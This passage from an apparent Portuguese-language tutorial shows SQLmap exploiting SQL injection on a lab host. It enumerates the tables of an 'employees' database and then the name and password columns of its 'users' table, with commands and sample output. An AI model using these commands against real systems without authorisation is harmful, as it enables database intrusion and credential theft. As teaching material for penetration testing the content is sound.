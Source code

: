 Além dos nomes dos bancos de dados, o SQLmap retornou que o sistema operacional é um Linux Ubuntu, o servidor Web é um Apache 2.4.41 e o banco de dados é um MariaDB.

### SQLmap - Obtendo as tabelas de um banco de dados

Dado que foi possível identificar os nomes de bancos de dados no servidor da vítima, vamos continuar a exploração, mas agora tentando identificar as tabelas de um banco de dados específico. Para isso vamos explorar o banco de dados chamado ``employees``.

No SQLmap, para identificar o banco de dados, é necessário informar o nome do banco de dados precedido da opção ``-D`` e depois a opção **``--tables``**. Ver o comando e o exemplo de saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees --tables
...
[09:52:59] [INFO] fetching tables for database: 'employees'
Database: employees
[11 tables]
+----------------------+
| users                |
| current_dept_emp     |
| departments          |
| dept_emp             |
| dept_emp_latest_date |
| dept_manager         |
| employees            |
| expected_values      |
| found_values         |
| salaries             |
| tchecksum            |
| titles               |
+----------------------+

[09:52:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'
```
> Parte da saída do comando SQLmap foi omitida por questões de espaço, o mesmo será feito para as outras saídas.

Através da saída apresentada anteriormente observa-se que o banco de dados ``employees`` é composto de várias tabelas (já comentadas no Exemplo 1). Vamos explorar a tabela ``users``, que remete a ideia de usuários/senhas.

### SQLmap - Obtendo as colunas de uma tabela

Sabendo a tabela que vamos explorar de um banco de dados, agora é necessário passar para o SQLMap além do nome do banco de dados, a tabela a ser explorada (``-T users``) e a opção ``--columns``. Veja o comando e a saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users --columns
...
[09:49:48] [INFO] fetching columns for table 'users' in database 'employees'
Database: employees
Table: users
[2 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| name     | varchar(255) |
| password | varchar(255) |
+----------+--------------+

[09:49:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'
```

